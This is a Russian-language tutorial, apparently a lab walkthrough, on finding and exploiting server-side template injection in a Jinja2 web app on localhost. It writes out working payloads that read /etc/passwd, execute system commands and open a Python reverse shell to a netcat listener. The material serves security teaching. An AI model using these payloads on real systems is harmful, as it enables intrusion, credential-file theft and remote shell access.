Важно отметить, что цифры в пэйлоаде не имеют значения - главное, что арифметическая операция выполняется, что подтверждает уязвимость веб-приложения. Это стандартные пэйлоады для тестирования на SSTI, также могут помочь определить тип шаблонизатора и уязвимо ли веб-приложение:


В правой части таблицы располагаются названия шаблонизаторов. Красными стрелками показана ситуация, когда полезная нагрузка не сработала, например, символы экранируются и вывод такой же, как и ввод. Зелёные стрелки говорят о том, что пэйлоад отработал как надо, например, если мы ввели {{7*7}}, и шаблонизатор вывел 49.

Итак, начнём с самого первого пэйлоада - `${7*7}`. Попробуем прописать его в GET-параметре book:
1. Указываем `${7*7}` в URL и отправить GET-запрос - 
```
http://localhost:8080/index?book=${7*7}
```
2. Увидев, вместо результата вычислений, нашу исходную строку - `${7*7}`, делаем вывод, что нагрузка не отработала - вывелось то, что мы указали в GET-параметре book.

3. В GET-параметре book указываем `{{7*7}}`, чтобы отправить GET-запрос.
4. В выводе ошибки мы видим значение `49`. Это значит, что полезная нагрузка отработала как надо и эта точка входа уязвима.



Теперь нам нужно понять какой шаблонизатор используется, чтобы грамотно подобрать вредоносный пэйлоад, который обеспечит нам удалённое подключение. На GitHub есть сборник полезных нагрузок для различных уязвимостей - `Payloads All The Things.` Перейдём в раздел с пэйлоадами для SSTI - на этой странице представлено большое количество пэйлоадов, которые используют конкретный язык программирования и шаблонизатор. Ключевым пэйлоадом тут является `{{7*’7’}}` или `{{7*'7'}}`, укажем его в URL:
1. В GET-параметре book указываем `{{7*’7’}}`, чтобы отправить GET-запрос.
2. В выводе ошибки появляется значение `7777777`. Это значит, что используется шаблонизатор `Jinja2`, `Twig`, либо какой-нибудь неизвестный, так как он воспринял второй аргумену как строку.


Далее в `Payloads All The Things` посмотрим какие пэйлоады подходят для `Jinja2` и `Twig`. Главным критерием того, что веб сервис использует шаблонизатор `Jinja2`, является вывод числа `777777`.

Возьмём пэйлоад для `Jinja2`, позволяющий прочитать файл, например, `/etc/passwd` и внедрим его в GET-параметр book:
```
http://localhost:8080/index?book={{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
Перед получением шелла давайте протестируем системную команду `id`:
```
http://localhost:8080/index?book={{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
Пробросить `шелл` - используем следующий пэйлоад:
```
http://localhost:8080/index?book={{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}
```
У станавливаем net cat - `c -nlvp 9898` и получаем доступ к серверу.

